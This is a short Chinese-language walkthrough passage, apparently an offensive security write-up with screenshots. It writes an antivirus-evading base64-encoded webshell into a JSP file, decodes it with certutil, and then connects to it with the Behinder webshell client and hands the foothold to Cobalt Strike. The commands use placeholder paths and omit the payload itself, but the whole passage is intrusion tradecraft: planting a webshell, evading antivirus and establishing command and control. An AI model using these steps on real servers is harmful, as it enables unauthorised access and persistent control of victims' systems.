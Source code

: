 ```php
echo bash64编码后的免杀马 > myfile.jsp
```

![image.png](assets/1698900835-273d738ac456e6e882caa0bcfffad096.png)

使用certutil进行解码

```php
certutil -decode 木马相对路径 解码后的木马相对路径
```

![image.png](assets/1698900835-6f843575ef195c7baaba96c8f03bb8e6.png)

冰蝎上线并上线CS

![image.png](assets/1698900835-03fce3f81ea6e680805d9e01198afd98.png)
